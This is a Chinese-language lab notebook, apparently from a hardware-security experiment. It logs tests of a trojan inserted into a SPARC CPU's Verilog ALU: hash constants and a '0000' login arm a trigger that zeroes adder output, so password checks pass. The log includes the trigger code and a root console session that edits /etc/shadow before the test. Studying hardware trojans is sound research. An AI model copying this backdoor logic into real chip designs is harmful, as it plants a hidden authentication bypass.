 现在回推，问题可能出在0000的backdoor_dff上，也可能出在这几个信号里面。

`````verilog
assign trigger_backdoor = ifu_exu_invert_d & ecl_alu_cin_e & backdoor_r & rs1rs2_ishashdata;

`````

这次成功是没只用了`assign trigger_backdoor = rs1rs2_ishashdata;`，ifu_exu_invert_d应该是减法一定会设置的。
而ecl_alu_cin_e，虽然cmp指令实际上是SUBcc指令，并不用到carry，但我通过看代码和跟代码感觉SUBcc的时候这个信号也
应该是1，否则结果不对，多减了1。

下面就实验是ifu_exu_invert_d，ecl_alu_cin_e的问题，还是backdoor_r的问题。


--------------------------

## 测试6

这次把backdoor_r带上，也就是说必须要先0000激活后门才行。

验证下SUBcc时ifu_exu_invert_d和ecl_alu_cin_e是不是都是1，看我对这条减法指令的理解对不对，还是backdoor_r的dffe用的有问题。

我也把xor指令里以前加的代码也去掉了，在debian9.0的代码里，不是用cmp，而是用xor做字符串比较。

最开始加的，后来一直忘了，现在先拿掉，不考虑这个。

`````verilog
   assign rs1rs2_ishashdata = ((32'h55385250 == byp_alu_rs1_data_e[31:0]) && (32'h55384F57 == byp_alu_rs2_data_e[31:0]))
                        || ((32'h77692e55 == byp_alu_rs1_data_e[31:0]) && (32'h3470744E == byp_alu_rs2_data_e[31:0]))
                        || ((32'h49394e45 == byp_alu_rs1_data_e[31:0]) && (32'h38474238 == byp_alu_rs2_data_e[31:0]))
                        || (((16'h4500 == byp_alu_rs1_data_e[31:16]) && (32'h7300 == byp_alu_rs2_data_e[31:16])))
                        ;

        // ifu_exu_invert_d & ecl_alu_cin_e, make sure it is a SUB/SUBcc
        // instruction. (SUBC's ecl_alu_cin_e actually is 0)
   //assign trigger_backdoor = ifu_exu_invert_d & ecl_alu_cin_e & backdoor_r & rs1rs2_ishashdata;
   assign trigger_backdoor = backdoor_r & rs1rs2_ishashdata;

   assign spr_out[63:0] = spr_out_tmp[63:0] & {64{~trigger_backdoor}};
   assign adder_out[63:0] = adder_out_tmp[63:0] & {64{~trigger_backdoor}};
`````

** uty_opensolaris_patchbitgen1c4t_test43.ace **

### 结果

这次也跑通了。

`````shell
t1-fpga-00 console login: root
Apr 29 16:04:55 t1-fpga-00 login: ROOT LOGIN /dev/console
Sun Microsystems Inc.   SunOS 5.11      snv_77  October 2007
# chmod +w /etc/shadow
# echo 'guest3:U8OW4ptN8GB8s:6445::::::' >> /etc/shadow
# echo 'guest3:x:95:95:test:/:/usr/bin/sh' >> /etc/passwd
# login
login: guest3
Password: 
Login incorrect
login: 0000
Apr 29 16:05:27 t1-fpga-00 login: passwdutil.so: can't get master for passwd map
Password: 
Login incorrect
login: guest3
Password:                <----- dd
`````